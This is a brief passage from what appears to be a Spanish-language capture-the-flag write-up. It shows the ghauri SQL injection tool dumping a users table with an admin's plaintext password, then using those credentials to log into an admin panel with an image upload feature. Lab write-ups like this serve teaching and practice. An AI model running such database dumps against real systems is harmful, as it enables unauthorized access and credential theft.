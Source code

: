 ```bash
$ ghauri -r req.txt -D pms_db -T users --dump
Database: pms_db
Table: users
[1 entries]
+----------+--------------+-----------+----------+------------------------+
| username | password     | phone     | fullname | photo                  |
+----------+--------------+-----------+----------+------------------------+
| admin    | Ntpqc6Z7MDkG | 699696969 | Lenam    | uploadImage/avatar.png |
+----------+--------------+-----------+----------+------------------------+

```

Entramos al panel de admin con las credenciales.

![image](/assets/images/securitron/2.png)

 En el apartado de cambiar de avatar vemos que podemos subir imágenes.
